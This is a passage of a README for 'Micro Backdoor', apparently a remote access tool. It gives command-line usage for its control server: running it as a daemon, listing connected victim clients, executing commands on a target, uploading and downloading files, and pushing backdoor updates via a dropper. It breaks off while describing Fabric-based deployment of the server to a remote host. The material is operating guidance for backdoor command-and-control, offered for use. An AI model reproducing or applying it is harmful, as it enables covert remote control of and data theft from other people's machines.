 ```
$ ./server.py --keys
```

5) Run the server as background process:

```     
$ ./server.py --daemon
```

6) Shutdown the server:

```
$ ./server.py --shutdown
```

Alternatively, you can run `server.py` with no command line options specified to start the server as interactive shell process (useful for debugging). After the server was started you can open admin interface in the web browser, its URL is composed from `HTTP_ADDR`, `HTTP_PORT` and `HTTP_PATH` options of `config.py` configuration file.  

Also, there’s some options to interact with connected clients from the command line.  

Retrieve and print list of the currently connected clients:

```
$ ./server.py --list
```

Execute some command on the connected client:

```
$ ./server.py --client <target_ID> --exec <command>
```

Upload some file to the connected client:

```
$ ./server.py --client <target_ID> --fput <remote_path> --file <local_path>
```

Download some file from the connected client:

```
$ ./server.py --client <target_ID> --fget <remote_path> --file <local_path>
```

Update Micro Backdoor on the client:

```     
$ ./server.py --client <target_ID> --update <dropper_path>
```


## Deploying the server

For easy deployment of Micro Backdoor server there's [Fabric](https://www.fabfile.org/) scenario located in `fabfile.py` Python script. To deploy the server to the remote Linux host you have to perform the following steps.

1) Edit `.ssh_config` file located in the project directory and add your server information there, for example:
